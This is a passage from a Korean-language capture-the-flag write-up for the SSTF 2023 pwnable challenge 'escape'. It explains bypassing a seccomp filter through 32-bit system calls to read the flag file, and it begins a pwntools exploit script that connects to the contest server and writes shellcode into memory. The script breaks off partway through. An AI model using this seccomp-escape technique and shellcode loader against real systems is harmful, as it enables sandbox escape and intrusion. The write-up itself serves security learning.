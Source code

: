 
seccomp 필터는 open, execve 등 플래그를 읽을 수 있는 시스템콜을 막아두었다.


![1](/assets/img/2023-11-24-SSTF2023-pwnable-write-up.md/1.png)


seccomp 필터에서 x64 시스템콜이 아닐 때에 대한 조건이 없기 때문에 32비트 시스템콜을 이용하여 플래그 파일을 open하고 출력하였다.



{% raw %}
```sql
from pwn import *
context.log_level = 'debug'

p = remote('escape.sstf.site', 5051)
# p = process('./escape')
e = ELF('./escape')


def s(x): return p.send(x)
def sl(x): return p.sendline(x)
def sa(x, y): return p.sendafter(x, y)
def sla(x, y): return p.sendlineafter(x, y)
def ru(x): return p.recvuntil(x)
def rl(): return p.recvline()
def ia(): return p.interactive()

def write_shellcode(shellcode, base):
    context.bits = 64
    idx = 0

    for i in range(0, len(shellcode), 8):
        addr = base + idx * 8
        # success('addr -> {}'.format(hex(addr)))
        # success('shellcode -> {}'.format(shellcode[i:i+8]))
```